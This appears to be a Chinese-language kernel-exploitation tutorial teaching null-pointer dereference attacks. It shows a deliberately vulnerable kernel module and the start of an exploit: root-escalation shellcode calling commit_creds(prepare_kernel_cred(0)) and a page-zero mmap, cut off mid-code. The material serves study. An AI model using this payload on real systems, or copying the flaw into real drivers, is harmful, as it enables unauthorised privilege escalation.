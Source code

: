 # how2kernel————第二节null dereference

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>环境搭建完了，我们就来先学一下最简单的null dereference的kernel漏洞利用，顾名思义，对未初始化的指针进行引用就会寻址到0地址，也就是null引用。如果程序中存在未初始化的函数指针，调用这个指针就会有一个类似call 0x00000000的行为。我们先来看一下32位下程序的内存分布：</font></br>

![内存分布](https://raw.githubusercontent.com/fangdada/kernelPWN/master/how2kernel/01null_dereference/000.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以假设我们有一个存在null dereference的漏洞的内核模块，当我们用一个用户进程去访问时，**mmap映射一块从0开始的内存**，然后在这块内存中布置好shellcode，然后调用未初始化函数指针时就会去调用我们的shellcode，完成提权攻击。所以有如下漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
void (*my_funptr)(void);
int bug1_write(struct file *file,const char *buf,unsigned long len)
{
        my_funptr();
        return len;
}
static int __init null_dereference_init(void)
{
        printk(KERN_ALERT "null_dereference driver init!\n");
        create_proc_entry("bug1",0666,0)->write_proc = bug1_write;
       return 0;
}
static void __exit null_dereference_exit(void)
{
        printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看不懂内核代码也没事，我们即使看到init和exit也可以猜测到这是**注册了初始化函数和退出函数**。内核驱动的模块创建有一个约定就是用**module\_init注册驱动创建的主函数**，然后用**module_exit注册驱动的清理与卸载函数**。这里我们用了null_dereference_init作为注册函数，然后函数很简单，没有申请设备号，没有注册设备，只是设置了一个入口函数，就是我们的漏洞函数bug1_write（**用create_proc_entry返回的结构直接访问write_proc在高版本内核中已不可行**），**bug1_write调用了一个未初始化的函数指针**。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们看我们的用户层测试代码：</font></br>

```C
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

// xor eax,eax
// call prepare_kernel_cred 
// call commit_creds
// ret
// 等价于 commit_creds(parepare_kernel_cred(0));
char payload[] = "\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3";

int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
```